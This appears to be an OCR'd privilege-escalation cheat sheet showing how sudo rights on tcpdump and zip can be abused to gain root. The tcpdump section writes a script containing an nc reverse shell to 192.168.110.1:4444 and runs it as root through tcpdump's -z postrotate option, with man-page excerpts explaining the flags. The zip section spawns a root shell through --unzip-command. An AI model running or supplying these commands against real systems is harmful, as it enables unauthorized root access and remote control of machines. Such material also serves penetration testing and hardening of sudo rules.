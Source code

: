 ### tcpdump

The “-z postrotate-command” option (introduced in tcpdump version 4.0.0).

Create a temp.sh ( which contains the commands to executed as root )

```none
id
/bin/nc 192.168.110.1 4444 -e /bin/bash
```

Execute the command

```none
sudo tcpdump -i eth0 -w /dev/null -W 1 -G 1 -z ./temp.sh -Z root
```

where

```none
-C file_size : Before  writing a raw packet to a savefile, check whether the file is currently larger than file_size and, if so, close the current savefile and open a new one.  Savefiles after the first savefile will have the name specified with the -w flag, with a number after it, starting at 1 and continuing upward.  The units of file_size are millions of bytes (1,000,000 bytes, not 1,048,576 bytes).

-W Used  in conjunction with the -C option, this will limit the number of files created to the specified number, and begin overwriting files from the beginning, thus creating a 'rotating' buffer.  In addition, it will name the files with enough leading 0s to support the maximum number of files, allowing them to sort correctly. Used in conjunction with the -G option, this will limit the number of rotated dump files that get created, exiting with status 0 when reaching the limit. If used with -C as well, the behavior will result in cyclical files per timeslice.

-z postrotate-command Used in conjunction with the -C or -G options, this will make tcpdump run " postrotate-command file " where file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip will compress each savefile using gzip or bzip2.

Note that tcpdump will run the command in parallel to the capture, using the lowest priority so that this doesn't disturb the capture process.

And in case you would like to use a command that itself takes flags or different arguments, you can always write a shell script that will take the savefile name as the only argument, make the flags &  arguments arrangements and execute the command that you want.

    -Z user 
    --relinquish-privileges=user If tcpdump is running as root, after opening the capture device or input savefile, but before opening any savefiles for output, change the user ID to user and the group ID to the primary group of user.

    This behavior can also be enabled by default at compile time.
```

### zip

```none
touch /tmp/exploit
sudo -u root zip /tmp/exploit.zip /tmp/exploit -T --unzip-command="sh -c /bin/bash"
```
